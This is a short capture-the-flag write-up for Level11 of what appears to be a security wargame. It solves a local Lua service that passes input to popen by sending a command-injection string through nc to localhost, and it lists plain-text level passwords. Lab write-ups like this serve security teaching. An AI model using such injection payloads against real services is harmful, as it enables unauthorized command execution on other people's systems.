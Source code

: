 # Solve Level11
pass : feulo4b72j7edeahuete3no7c

## Description
- home
    - -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*

### level11.lua
- Try to execute but error : address already in use
  - ```ss -ln``` find 127.0.0.1:5151 is already used
    - the server is already start
      - ```curl localhost:5151``` ==> works
      - us nc instead of curl ```echo "useless;getflag > /tmp/lpo; something" | nc localhost 5151```
- The server listen for a var called 'l' and compare his checksum [sha1sum][df1] with a hard coded value.
  - according to wikipedia "The SHA-1 variants are proven vulnerable to [collision attacks][df2]"
    - looks like this type of attacks are to hard/expensive for us [last paper on collision in sha1][df3]
- find a vulnerability on popen which can be exploit with command injection 

## Solution
```bash
echo "useless;getflag > /tmp/lpo; something" | nc localhost 5151
```

- flag11 : 
- level12 : fa6v5ateaw21peobuub8ipe6s


## Resolve problem


[df1]: https://en.wikipedia.org/wiki/Sha1sum
[df2]: https://en.wikipedia.org/wiki/Collision_attack
[df3]: https://eprint.iacr.org/2020/014.pdf